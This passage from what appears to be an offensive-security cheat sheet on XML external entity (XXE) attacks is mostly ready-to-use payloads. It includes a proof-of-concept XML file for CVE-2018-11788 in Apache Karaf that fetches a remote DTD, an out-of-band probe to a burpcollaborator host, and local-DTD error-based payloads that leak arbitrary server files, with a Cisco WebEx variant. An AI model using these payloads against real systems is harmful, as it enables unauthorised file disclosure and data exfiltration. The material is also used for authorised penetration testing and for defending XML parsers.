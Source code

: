 CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)


## XXE with local DTD

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:
```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```
### Cisco WebEx
```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
```